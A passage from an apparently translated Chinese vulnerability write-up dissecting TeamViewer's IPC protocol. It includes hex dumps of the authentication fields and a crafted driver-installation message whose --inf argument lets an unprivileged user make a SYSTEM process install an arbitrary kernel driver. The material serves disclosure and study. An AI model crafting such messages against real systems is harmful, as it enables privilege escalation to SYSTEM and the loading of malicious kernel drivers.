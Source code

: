 首先，我们有一个类似的头部  
```
08 00 01 00 ac 00 00 00  
```  
  
如前所述，它是8字节长（由第一个字节表明）。接下来的三个字节似乎总是相同的，我不确定它们的具体作用。接着是下一个4字节，表示消息的长度。  
  
接下来是子头部  
```
01 12 01 04 00 00 00
```  
  
这表示消息的类型。  
  
然后是4字节，表示正在连接的PID。  
```
78 22 00 00
```  
  
在这个例子中，PID是8824。  
  
然后，在0x27到0x34字节中，我们有TeamViewer的版本号。在此示例中，版本号为15.53.7。这个版本号需要与TeamViewer服务匹配。如果客户端指示的版本与15.53.7不同，由于版本不匹配，服务会终止IPC连接。  
```
31 00 35 00 2e 00 35 00 33 00 2e 00 37
```  
  
消息中稍后也有版本号的再次出现，不过每个数字之间有分隔符。  
  
在0x58到0x5b字节中，我们有版本的主版本号，此处为15。在0x63到0x66字节中，我们有版本的次版本号。在0x6e到0x6f字节中，我们有版本的最后一位数字。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMoWoBJamKDP3lADPJibzNdGLIqJKicKMjia2v6mXM89JXFemKeDK2XGjj2nKnb21NlicicPrvxoEYmK48w/640?wx_fmt=png&from=appmsg "")  
  
消息的其余部分我不确定它的作用，仅需写入正确的PID。  
  
在这个例子中，尾部有些不同，因为它在常见字节之后包含了以下字节：  
```
ff 04 00 00 00 95 d4 04 31
```  
  
最后有一个生成的标识符，用于后续消息中。  
```
8c 83 14 3b
```  
  
我还看到该消息中指示了语言。在这个例子中是英文 ( en)。  
#### 请求安装驱动消息  
  
在成功完成身份验证并发送了包含正确PID的控制IPC消息后，我们就能够发送驱动安装请求消息。  
  
这意味着，非特权用户可以通过提供 –inf 参数，让SYSTEM进程使用该参数安装任意的内核驱动程序。  
  
该消息中，最关键的部分是 –inf 参数，它将被SYSTEM进程用于安装所指定的驱动程序。  
  
以下是一个具体的示例消息：  
```
0000   08 00 01 00 35 01 00 00 33 0c 01 01 00 00 00 01   ....5...3.......
0010   02 04 00 00 00 02 00 00 00 03 96 00 00 00 2d 00   ..............-.
0020   2d 00 69 00 6e 00 66 00 20 00 43 00 3a 00 5c 00   -.i.n.f. .C.:.\.
0030   4e 00 6f 00 74 00 20 00 50 00 72 00 6f 00 67 00   N.o.t. .P.r.o.g.
0040   72 00 61 00 6d 00 20 00 46 00 5c 00 61 00 61 00   r.a.m. .F.\.a.a.
0050   61 00 61 00 61 00 61 00 61 00 61 00 61 00 61 00   a.a.a.a.a.a.a.a.
0060   5c 00 62 00 62 00 62 00 5c 00 41 00 6e 00 6f 00   \.b.b.b.\.A.n.o.
0070   74 00 68 00 65 00 72 00 54 00 68 00 69 00 6e 00   t.h.e.r.T.h.i.n.
0080   67 00 67 00 2e 00 69 00 6e 00 66 00 20 00 2d 00   g.g...i.n.f. .-.
0090   2d 00 69 00 64 00 20 00 54 00 45 00 41 00 4d 00   -.i.d. .T.E.A.M.
00a0   56 00 49 00 45 00 57 00 45 00 52 00 56 00 50 00   V.I.E.W.E.R.V.P.
00b0   4e 00 00 00 05 02 00 00 00 00 00 06 02 00 00 00   N...............
00c0   00 00 07 01 00 00 00 00 08 46 00 00 00 4c 00 6f   .........F...L.o
00d0   00 63 00 61 00 6c 00 5c 00 44 00 72 00 69 00 76   .c.a.l.\.D.r.i.v
00e0   00 65 00 72 00 49 00 6e 00 73 00 74 00 61 00 6c   .e.r.I.n.s.t.a.l
00f0   00 6c 00 46 00 69 00 6e 00 69 00 73 00 68 00 45   .l.F.i.n.i.s.h.E
0100   00 76 00 65 00 6e 00 74 00 5f 00 56 00 50 00 4e   .v.e.n.t._.V.P.N
```